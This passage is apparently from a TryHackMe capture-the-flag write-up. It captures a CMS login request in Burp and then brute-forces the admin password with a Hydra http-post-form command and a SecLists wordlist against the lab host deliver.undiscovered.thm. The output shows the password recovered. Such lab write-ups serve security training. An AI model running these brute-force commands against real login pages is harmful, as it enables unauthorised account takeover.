 ## Hydra to bruteforce the login password
### Analyzing the request on burp
**Request**
```html
POST /cms/index.php HTTP/1.1
Host: deliver.undiscovered.thm
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://deliver.undiscovered.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://deliver.undiscovered.thm/cms/index.php?msg=login_failed
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: PHPSESSID=mdvue070t8ntce99nr7d0msqh7
Connection: close

username=admin&userpw=admin
```
**Response**
```html
HTTP/1.1 302 Found
Date: Tue, 03 Nov 2020 03:54:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: index.php?msg=login_failed
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

### Using hydra
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ hydra -l admin -P /usr/share/wordlists/SecLists-master/Passwords/darkweb2017-top1000.txt deliver.undiscovered.thm http-post-form "/cms/index.php:username=admin&userpw=^PASS^:login_failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-03 09:46:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 999 login tries (l:1/p:999), ~63 tries per task
[DATA] attacking http-post-form://deliver.undiscovered.thm:80/cms/index.php:username=admin&userpw=^PASS^:login_failed
[80][http-post-form] host: deliver.undiscovered.thm   login: admin   password: liverpool
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-03 09:46:29
```
